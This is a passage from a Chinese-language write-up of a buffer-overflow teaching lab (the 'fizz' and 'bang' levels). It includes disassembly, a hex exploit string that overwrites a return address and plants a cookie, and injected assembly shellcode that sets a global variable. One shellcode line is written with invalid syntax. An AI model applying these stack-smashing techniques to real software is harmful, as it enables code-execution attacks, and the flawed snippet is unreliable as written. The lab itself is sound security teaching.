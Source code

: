 ```
 8048c46:	50                   	push   %eax
 8048c47:	68 b6 a2 04 08       	push   $0x804a2b6
 8048c4c:	6a 01                	push   $0x1
 8048c4e:	e8 1d fd ff ff       	call   8048970 <__printf_chk@plt>
 8048c53:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c5a:	e8 47 06 00 00       	call   80492a6 <validate>
 8048c5f:	83 c4 10             	add    $0x10,%esp
 8048c62:	eb d5                	jmp    8048c39 <fizz+0x24>
```

所以先要把fizz地址覆盖45-48字节，然后后面跟着8字节其中后4字节填cookie注意小端存放，所以有下面的攻击内容：
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 15 8c 04 08 00 00 00 00 05 79 6a 4d
本关了解到一个新的点，就是返回地址处调用的函数的ebp就压栈在原先存放返回地址的地方

任务三bang：

```
08048c64 <bang>:
 8048c64:	55                   	push   %ebp
 8048c65:	89 e5                	mov    %esp,%ebp
 8048c67:	83 ec 08             	sub    $0x8,%esp
 8048c6a:	a1 20 d1 04 08       	mov    0x804d120,%eax
 8048c6f:	3b 05 28 d1 04 08    	cmp    0x804d128,%eax
 8048c75:	74 1d                	je     8048c94 <bang+0x30>
 8048c77:	83 ec 04             	sub    $0x4,%esp
 8048c7a:	50                   	push   %eax
 8048c7b:	68 d4 a2 04 08       	push   $0x804a2d4
 8048c80:	6a 01                	push   $0x1
 8048c82:	e8 e9 fc ff ff       	call   8048970 <__printf_chk@plt>
 8048c87:	83 c4 10             	add    $0x10,%esp
 8048c8a:	83 ec 0c             	sub    $0xc,%esp
 8048c8d:	6a 00                	push   $0x0
 8048c8f:	e8 2c fc ff ff       	call   80488c0 <exit@plt>
 8048c94:	83 ec 04             	sub    $0x4,%esp
 8048c97:	50                   	push   %eax
 8048c98:	68 28 a1 04 08       	push   $0x804a128
 8048c9d:	6a 01                	push   $0x1
 8048c9f:	e8 cc fc ff ff       	call   8048970 <__printf_chk@plt>
 8048ca4:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048cab:	e8 f6 05 00 00       	call   80492a6 <validate>
 8048cb0:	83 c4 10             	add    $0x10,%esp
 8048cb3:	eb d5                	jmp    8048c8a <bang+0x26>
```

第二关用到了cookie，本关也有，猜想这也是个全局变量，在fizz中可以看到0x804d128是cookie的地址，
所以在bang中确认0x804d120是global_value的地址，本关在字符数组里放入攻击机器代码，
然后将数组首地址放到返回地址处，这样就可以完成任务了。
构造.s文件内容：

```
movl $0x4d6a7905,%eax
movl %eax,$0x804d120
push $0x8048c64
ret
```
